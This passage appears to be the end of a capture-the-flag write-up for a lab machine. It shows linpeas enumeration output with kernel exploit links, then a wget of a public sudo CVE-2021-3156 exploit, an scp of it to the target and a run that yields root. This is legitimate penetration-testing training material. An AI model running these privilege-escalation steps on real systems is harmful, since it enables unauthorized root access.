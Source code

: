 ```bash
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154

╔══════════╣ Unix Sockets Listening
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sockets
/home/paul/.pm2/pub.sock
  └─(Read Write)
/home/paul/.pm2/rpc.sock
  └─(Read Write)
╔══════════╣ Searching uncommon passwd files (splunk)
passwd file: /etc/pam.d/passwd
passwd file: /etc/passwd
passwd file: /usr/share/bash-completion/completions/passwd
passwd file: /usr/share/lintian/overrides/passwd
```

- The polkit CVE will not work because it needs Gnome-Control-Center which we do not have here.
- Linpeas also mentions `CVE-2021-3156`. Let's get try with the poc from linepeas. [Here](https://github.com/blasty/CVE-2021-3156) are the steps.
- No luck with this exploit, let's try another one and if it does not work we will try another CVE
- Let's have a look at [this one](https://github.com/worawit/CVE-2021-3156)
- `wget https://raw.githubusercontent.com/worawit/CVE-2021-3156/main/exploit_nss.py`
- `scp -i routerspace_rsa exploit_nss.py paul@10.10.11.148:/home/paul`
- `python3 exploit_nss.py` and this time it works. We can grab the root flag  

![root flag](../.res/2023-02-05-12-21-19.png)